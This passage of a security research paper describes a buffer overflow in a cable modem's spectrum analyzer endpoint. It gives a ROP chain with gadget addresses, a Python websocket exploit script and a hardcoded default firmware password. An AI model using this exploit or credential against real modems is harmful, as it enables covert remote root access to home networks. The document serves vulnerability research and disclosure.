  
\includegraphics[width=1\textwidth]{graphics/spectrumAnalyserInterface}
  \caption{spectrum analyzer parse request}
  \label{fig:spectrumAnalyserInterface}
\end{figure}

\subsection{The Buffer Overflow}
A quick introduction to the MIPS architecture, is useful in understanding the buffer overflow.
\begin{itemize}
  \item In MIPS, relational jumps do not exist. For instance, loops are created with the exact start address of the loop as the jump destination, not the distance.
  \item There is a dedicated \mono{\$ra} register used for return addresses.
  \item Instructions after any jump instruction is executed before the jump.
  \item Arguments are passed using registers \mono{\$a0} to \mono{\$a3}.
  \item Return values are passed through \mono{\$v0}.
  \item All callee registers are saved to the stack before the function is executed and restored again from the stack after execution.
  \begin{itemize}
    \item Therefore, a buffer overflow that writes to the stack can overwrite to the saved callee registers.
  \end{itemize}
\end{itemize}

The vulnerable function is called if the string \enquote{Frontend::GetFrorntendSpectrumData} is recognized in the JSON request.
As an example, a well formed web request to the spectrum analyzer could look like \cref{lst:json_intended2}.

\lstinputlisting[language=json,firstnumber=1,label={lst:json_intended2},caption={An expected request.},float]{legit_request.json}

\cref{fig:spectrumAnalyserCode} shows the part of the function, responsible for interpreting the \mono{\textbf{fStartHz}} parameter. 
On line \mono{\textbf{0x801191ec}} the function \mono{\textbf{strstr}} is called, finding the position of \mono{\textbf{fStartHz}} in the whole string.
On line \mono{\textbf{0x80119204}} a comma is placed in register \mono{\$a1}, causing \mono{\textbf{strchr}} to find the next comma in the string, i.e. the end of the given frequency.
Line \mono{\textbf{0x80119208}} marks the start of the frequency value, by adding the length of \enquote{\mono{\textbf{fStartHz: }}} to the start address of \mono{\textbf{fStartHz}}.
The length of the frequency number is calculated on line \mono{\textbf{0x8011920c}}, by subtracting the start of the frequency value from position of the comma.
\mono{\textbf{0x80119214}} passes all these parameters to \mono{\textbf{strncpy}}, copying the frequency value onto the stack, starting from the stack pointer \mono{\$sp}.
Since the length of copying is calculated from when the comma is placed, the allocated space can be overflowed.

\begin{figure}
  
\includegraphics[width=\textwidth]{bufferOverflowVunerableCode}
  \caption{spectrum analyzer parse request}
  \label{fig:spectrumAnalyserCode}
\end{figure}

\cref{fig:calleeSavedRegisters} shows the code restoring the callee saved registers.
It restores the first register from the address \mono{\$sp + 112}, meaning that any argument value larger than 112 characters, will override the restored registers.

\begin{figure}
  
\includegraphics[width=\textwidth]{restoringCalleeSavedRegisters}
  \caption{Code restoring callee saved registers}
  \label{fig:calleeSavedRegisters}
\end{figure}

\subsection{Exploiting the Vulnerability}
\label{subsec:exploitingTheVulneruablity}
As explained in \cref{sec:eCos}, the eCos OS allows stack execution. Therefore the initial idea was to use the overflow to write code on the stack and executing it.
However, since the stack will be different each time this function is reached, and the fact that MIPS do not allow relative jumps, it would be hit inconsistently, even with a NOP slide\footnote{\url{https://en.wikipedia.org/wiki/NOP_slide}}.
Therefore return oriented programming was used.
In \cref{fig:returnOrientedProgramming} the call graph of the exploit can be seen.
Given that \mono{\textbf{allow\_config}} was the target, it should be possible call it by writing its address to the return register \mono{\$ra}.
However the function needs \mono{mutex* CmSnmpAgent::getSingletonMutex()} as input parameter.

To accommodate this, two value registers and three return addresses are overwritten.
Return addresses for other functions can be overridden, because functions are entered right after they have stored any callee registers, which pushes them further up the stack when restoring them.
When \mono{\textbf{GetFrontendSpectrumData}} returns it pushes the stack pointer up by 160.
This means that when \mono{\textbf{CmSnmpAgent::getSingletonMutex()}} restores the return address from the stack, it will call a gadget \mono{\textbf{NestedCall}}.
This gadget moves the return parameter from \mono{\textbf{CmSnmpAgent::getSingletonMutex()}} into the input registers for \mono{\textbf{allow\_config}}, and then jumps to \mono{\$s1}, which have been overridden with the address for \mono{\textbf{allow\_config}}.
\mono{\textbf{allow\_config}} is then called and the telnet server is started.
Returning to normal execution now will however crash the modem, as the original register values have been lost. As explained in \cref{sec:eCos} this is a multi-threaded system, so starting an infinite loop will work similarly to suspending the thread indefinitely.
This is done with another gadget that jumps to \mono{\$s7}, which has been overridden with its own address, causing the infinite loop. The telnet session is started on a separate thread.
Once the telnet connection is accessed, the infinitely looping thread can be killed if needed.

\begin{figure}[ht]
  
\includegraphics[width=\linewidth]{graphics/returnorientedprogramming}
  \caption{Call graph of the return oriented programming}
  \label{fig:returnOrientedProgramming}
\end{figure}

If a person clicks on our link we can now open up a unrestricted root telnet session to their modems, install a reverse shell that runs on startup and erase all traces of the exploit.
Remotely updating firmware, exchanging code on the fly without the ISP or user knowing.

\subsection{Firmware Strings}
An integral part of the process was running the linux command \mono{strings} on the extracted firmware.
This finds all strings in the firmware, often reviling hardcoded passwords, endpoints, SNMP variables etc.
This above sections explain the path relatively straightforward and simple.
The process was far from that and many periods of stagnation have been saved by the command.
It was how the SNMP variables enabling the serial connection was found and how many of interesting web interface endpoints, including the spectrum analyzer, was found.
If you are looking into expanding \exploitname{} to other modems we highly recommend taking your time using this command on the extracted and unpacked firmware.

The most interesting string found however, was the default password \enquote{\mono{\textbf{aDm1n\$TR8r}}} with blank as username.
This is written directly into the firmware and is therefore not in the control of the ISP.
It grants anyone using it access to the user web interface and it is only possible to remove with a firmware update.
It therefore also supersedes the credentials found in \cref{subsec:userFrontendVulnerabilities}.
This password has been removed by most of the cable modem manufacturers tested and the Technicolor hardware is currently the only hardware found where it is useable.

\subsection{Final Request}
The final request is made from the media server because then it's not necessary to include port forwarding in the rop chain to get access to the eCos telnet server, as the media server is already on the local network. 
If one were to include a reverse shell or port forwarding to the rop chain then the more general example explained in \cref{app:technical_replication} could be used to created the request in javascript from the victims browser.

The request can be made from any computer on the network (including the media server) and for ease of understanding the program executing the request can be seen in \cref{lst:pythonExploitRequest} written in Python.

\begin{lstlisting}[language=Python,label={lst:pythonExploitRequest},caption={Python code for executing exploit request}]
  import websocket

start = """{
  "jsonrpc":"2.0",
  "method":"Frontend::GetFrontendSpectrumData",
  "params":{
    "coreID":0,
    "fStartHz":"""

end = """,
      "gain":1
    },
    "id":"0"
  }"""

loopGadget = bytearray.fromhex('80ee567c') # Also used for S7 register
allowConfig = bytearray.fromhex('80280474') # Factory mode function
getSingletonMutex = bytearray.fromhex('8025ecd0')
allowConfigGadget = bytearray.fromhex('800aa090')

payload = (start.encode('ascii') +
    ('A'*116).encode('ascii') + allowConfig +         # sp+116       (s1)
    ('A'*20).encode('ascii') + loopGadget +            # sp+144       (s7)
    ('A'*4).encode('ascii') + getSingletonMutex +   # sp+148       (ra)
    ('A'*28).encode('ascii') + allowConfigGadget +  # sp+160+20    (??)
    ('A'*60).encode('ascii') + loopGadget +            # sp+160+20+40 (??)
    end.encode('ascii'))

websocket.WebSocket()
ws.connect("ws://192.168.100.1:8080/Frontend")
ws.send(payload)

#The final json request string:
#{
#  "jsonrpc":"2.0",
#  "method":"Frontend::GetFrontendSpectrumData",
#  "params":{
#    "coreID":0,
#    "fStartHz":AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
